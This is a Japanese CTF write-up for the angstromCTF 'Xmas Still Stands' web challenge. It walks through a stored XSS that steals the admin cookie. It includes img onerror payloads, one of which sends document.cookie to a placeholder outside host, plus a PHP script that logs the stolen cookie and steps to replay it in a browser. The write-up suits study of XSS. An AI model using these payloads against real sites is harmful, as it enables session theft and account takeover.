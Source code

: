 # Xmas Still Stands:Web:50pts
You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?  


# Solution
文字列をPostし、それを表示するWEBアプリケーションであるようだ。  
Home  
[site1.png](site/site1.png)  
Post  
[site2.png](site/site2.png)  
Report  
[site3.png](site/site3.png)  
Admin  
[site4.png](site/site4.png)  
さらに管理人にReportすることでそのPostを削除させることができる。  
AdminページよりXSSで管理人のcookieを盗めばよい。  
問題の頭文字もXSSである。  
```javascript
<script>alert("actf")</script>
```
をPostしてみるが、alertが表示されないのでonerrorを使用する。  
```javascript
<img src="1" onerror="alert('actf');">
```
無事alertが表示されたので、以下のようなスクリプトを仕込みAdminに削除させる。  
```javascript
<img src="1" onerror="location.href = 'http://www.xxxxx.xxx/hack.php?cookie=' + document.cookie;">
```
今回はphpを以下のように記述した(アクセスログを見るのもよい)。  
```php:hack.php
<?php
$URI = $_SERVER['REQUEST_URI'];
echo $URI;
$fp = fopen("hack.txt", "w");
fwrite($fp, $URI);
fclose($fp);
?>
```
表示されたPostのIDをReportの後、hack.txtに以下のcookieが保存されていた。  
```text:hack.txt
/hack.php?cookie=super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=John
```
これを自身のブラウザに設定してやる。  
```javascript
<img src="1" onerror="document.cookie = 'super_secret_admin_cookie=hello_yes_i_am_admin; path=/';">
<img src="1" onerror="document.cookie = 'admin_name=John; path=/';">
```
せっかくXSSがあるならば使おう。  
するとAdminページにflagが表示される。  
Admin_flag  
[flag.png](site/flag.png)

## actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}